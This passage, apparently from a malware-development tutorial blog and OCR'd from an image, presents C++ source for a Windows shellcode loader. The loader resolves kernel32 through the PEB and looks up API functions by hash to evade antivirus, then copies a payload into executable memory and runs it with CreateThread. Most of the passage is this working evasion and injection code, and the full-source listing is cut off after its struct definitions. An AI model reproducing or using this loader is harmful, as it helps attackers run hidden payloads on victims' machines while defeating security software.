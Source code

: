 ```cpp
  }
  return nullptr;
}
```

And, respectively, the `main()` function logic is different:    

```cpp
int main() {
  HMODULE mod = getKernel32(56369259);
  fnGetModuleHandleA myGetModuleHandleA = 
  (fnGetModuleHandleA)getAPIAddr(mod, 4038080516);
  fnGetProcAddress myGetProcAddress = 
  (fnGetProcAddress)getAPIAddr(mod, 448915681);

  HMODULE hk32 = myGetModuleHandleA("kernel32.dll");
  fnVirtualAlloc myVirtualAlloc = 
  (fnVirtualAlloc)myGetProcAddress(
    hk32, "VirtualAlloc");
  fnCreateThread myCreateThread = 
  (fnCreateThread)myGetProcAddress(
    hk32, "CreateThread");
  fnWaitForSingleObject myWaitForSingleObject = 
  (fnWaitForSingleObject)myGetProcAddress(
    hk32, "WaitForSingleObject");

  PVOID lb = myVirtualAlloc(0, sizeof(my_payload),
  MEM_COMMIT | MEM_RESERVE, 
  PAGE_EXECUTE_READWRITE);
  memcpy(lb, my_payload, sizeof(my_payload));
  HANDLE th = myCreateThread(NULL, 0, 
  (PTHREAD_START_ROUTINE)lb, NULL, 0, NULL);
  myWaitForSingleObject(th, INFINITE);
}
```

As you can see, I used [Win32 API call by hash trick](https://cocomelonc.github.io/tutorial/2022/03/22/simple-av-evasion-5.html).    

Then full source code (`hack.cpp`) is:    

```cpp
/*
 * hack.cpp - find kernel32 from PEB, 
 assembly style. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/04/02/malware-injection-18.html
*/
#include <windows.h>
#include <stdio.h>

typedef struct _UNICODE_STRING {
  USHORT Length;
  USHORT MaximumLength;
  PWSTR Buffer;
} UNICODE_STRING;

struct LDR_MODULE {
  LIST_ENTRY e[3];
  HMODULE base;
  void* entry;
  UINT size;
  UNICODE_STRING dllPath;
  UNICODE_STRING dllname;
};
```